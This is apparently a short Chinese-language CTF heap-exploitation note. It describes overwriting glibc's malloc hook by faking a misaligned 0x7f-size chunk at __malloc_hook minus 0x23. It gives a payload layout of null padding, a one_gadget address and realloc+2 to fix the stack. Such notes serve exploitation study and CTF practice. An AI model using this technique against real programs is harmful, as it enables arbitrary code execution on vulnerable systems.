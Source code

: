 ```yaml
---
author: YelloChunk
tags: Glibc_Resolve
---
```

# Malloc_Hook 错位构造 0x7f Size Chunk

# Tricks：

```
打Malloc_Hook  - 0x23        选择 “\x00” * 0xB + p64(OneGadGet) + p64(Realloc+0x2)
Realloc + 2 错位 POP 帮助我们拿下
```


